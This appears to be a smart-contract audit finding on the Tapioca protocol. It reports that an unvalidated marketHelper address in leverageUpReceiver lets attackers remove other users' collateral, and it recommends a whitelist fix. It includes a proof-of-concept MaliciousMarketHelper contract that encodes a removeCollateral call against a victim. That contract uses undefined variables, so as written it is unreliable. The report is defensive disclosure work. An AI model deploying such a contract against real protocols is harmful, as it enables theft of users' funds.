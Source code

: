 Funny Ginger Squid

high

# lack of market helper address validation allows theft of fund

## Summary

lack of market helper address validation allows theft of fund

## Vulnerability Detail

In `TOFTMarketReceiverModule.sol` [Line of code](https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/TapiocaZ/contracts/tOFT/modules/TOFTMarketReceiverModule.sol#L74)

```solidity
function leverageUpReceiver(bytes memory _data) public payable {
        /// @dev decode received message
        LeverageUpActionMsg memory msg_ = TOFTMsgCodec.decodeLeverageUpMsg(_data);

        /// @dev 'market'
        _checkWhitelistStatus(msg_.market);

        msg_.borrowAmount = _toLD(msg_.borrowAmount.toUint64());
        if (msg_.supplyAmount > 0) {
            msg_.supplyAmount = _toLD(msg_.supplyAmount.toUint64());
        }

        approve(address(msg_.market), type(uint256).max);

        {
            (Module[] memory modules, bytes[] memory calls) = IMarketHelper(msg_.marketHelper).buyCollateral(
                msg_.user, msg_.borrowAmount, msg_.supplyAmount, msg_.executorData
            );
            IMarket(msg_.market).execute(modules, calls, true);
        }

        approve(address(msg_.market), 0);

        emit LeverageUpReceived(msg_.user, msg_.market, msg_.borrowAmount, msg_.supplyAmount);
    }

```
we validate
```solidity
  _checkWhitelistStatus(msg_.market);
```

## Impact

However, if we take a look at the `LeverageUpActionMsg` struct, [Line of code](https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/gitmodule/tapioca-periph/contracts/interfaces/oft/ITOFT.sol#L150)
```solidity
struct LeverageUpActionMsg {
    address user;
    address market;
    address marketHelper;
    uint256 borrowAmount;
    uint256 supplyAmount;
    bytes executorData;
}
```
the marketHelper address is not validated
```solidity
{
            (Module[] memory modules, bytes[] memory calls) = IMarketHelper(msg_.marketHelper).buyCollateral(
                msg_.user, msg_.borrowAmount, msg_.supplyAmount, msg_.executorData
            );
            IMarket(msg_.market).execute(modules, calls, true);
        }
```

it is crucial because the code tries to call IMarketHelper(msg_.marketHelper).buyCollateral to generate call data

However, if user can pass in any msg_.marketHelper, he can generate any call data, for example,

Then can generate call data to remove someone else collateral if another user give contract's approval. [Line of code](https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/bigBang/BBCollateral.sol#L48)
```solidity
function removeCollateral(address from, address to, uint256 share)
        external
        optionNotPaused(PauseType.RemoveCollateral)
        solvent(from, false)
        notSelf(to)
        allowedBorrow(from, share)
    {
        _removeCollateral(from, to, share);
    }
```
note that `allowedBorrow(from, share)` calls [Line of code](https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/Market.sol#L416)
```solidity
function _allowedBorrow(address from, uint256 share) internal virtual override {
        if (from != msg.sender) {
            // TODO review risk of using this
            (uint256 pearlmitAllowed,) = penrose.pearlmit().allowance(from, msg.sender, address(yieldBox), collateralId);
            require(allowanceBorrow[from][msg.sender] >= share || pearlmitAllowed >= share, "Market: not approved");
            if (allowanceBorrow[from][msg.sender] != type(uint256).max) {
                allowanceBorrow[from][msg.sender] -= share;
            }
        }
    }

```
As we can see, the TOFT.sol very likely hold a lot token approval

if user can pass an marketHelper they control, they can just deploy this contract as marketHelper:

```solidity
contract MaliciousMarketHelper {
    
    address public owner;

    address public victim;

    constructor() {
        owner = msg.sender;
    }

    function setVictim(address _victim) public {
        require(owner == msg.sender, "invalid owner");
        victim = _victim;
    }

    function buyCollateral(address from, uint256 borrowedAmount, uint256 supplyAmount, bytes calldata executorData)
        external
        pure
        returns (Module[] memory modules, bytes[] memory calls)
    {
        modules = new Module[](1);
        calls = new bytes[](1);
        modules[0] = Module.Collateral;
        calls[0] = abi.encodeWithSelector(SGLCollateral.removeCollateral.selector, victim, to, share);
    } 

}
```

No matter the address from passd in, the victim address is encoded in the execute module call data,

then after the victim give the magnetar address approval to transfer his own asset,

attacker can input victim address and remove collateral from victim address and withdraw the collateral to the attacker's own address.

In this case, even the function called is named as buyCollateral, the user maliciously compose the call data to remove assets.

## Code Snippet

1. https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/TapiocaZ/contracts/tOFT/modules/TOFTMarketReceiverModule.sol#L74

2. https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/gitmodule/tapioca-periph/contracts/interfaces/oft/ITOFT.sol#L150
3. https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/bigBang/BBCollateral.sol#L48
4. https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/Market.sol#L416

## Tool used

Manual Review

## Recommendation

This function should verify that the marketHelper address is among a list of approved or whitelisted addresses 

before proceeding with any operations. 

